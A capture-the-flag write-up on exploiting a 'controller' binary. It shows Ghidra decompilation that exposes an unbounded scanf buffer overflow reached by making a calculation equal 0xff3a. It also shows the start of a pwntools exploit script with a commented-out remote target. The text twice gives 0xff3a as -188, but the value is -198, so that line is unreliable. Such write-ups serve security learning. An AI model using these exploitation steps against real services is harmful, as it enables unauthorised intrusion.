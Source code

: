 Nothing here looks like an obvious overflow, so I start to reverse engineer the code with ghidra. The main() function first calls welcome(), which just displays some of the initial text, followed by calculator, which is much more interesting. The calculator() function calls calc(), which gets the numbers and performs the calculation. The most notable aspect of reverse engineering calc() is that neither of our inputs can exceed 0x45; otherwise, we will trigger an exit condition. The relevant code snippet is below:

```
  if ((0x45 < (int)input_1) || (0x45 < (int)input_2)) {
    printstr("We cannot use these many resources at once!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x69);
  }
```

To return to calculator() we can see that the result of the calculation is returned by calc() and stored in a stack variable within calculator(). The interesting part is that if the results of your calculation are equal to a certain number, displayed in ghidra as 0xff3a, then it will use __isoc99_scanf() to take a user string that is unbounded in length, so it will probably give us a very usable buffer overflow. 

```
  local_c = calc();
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf("%s",local_28);
    if ((local_28[0] == 'y') || (local_28[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```

To exploit this fact, note that 0xff3a is equal to the signed decimal -188. As a result, an easy way to trigger this condition would be to input -18 and 11 and select the option to multiply them together, which should equal -188. At this point, I created a simple python script to do just this and send in a cyclic() string from pwntools as my payload. This is an easy way to determine how many characters we have to write until we start overflowing the stack pointer, which we need to know in order to eventually build a ROPchain. The python code to that is here:

```
from pwn import *

target = process('./controller', env={"LD_PRELOAD":"./libc.so.6"})


pid = gdb.attach(target, "\nb *calculator+151\n set disassembly-flavor intel\ncontinue")

#target = remote('206.189.121.131', 30388)

elf = ELF("controller")
libc = ELF("libc.so.6")

print(target.recvuntil(b'Insert the amount of 2 different types of recources:'))

target.sendline(b'-18')
target.sendline(b'11')

print(target.recvuntil(b'4.'))
	
```
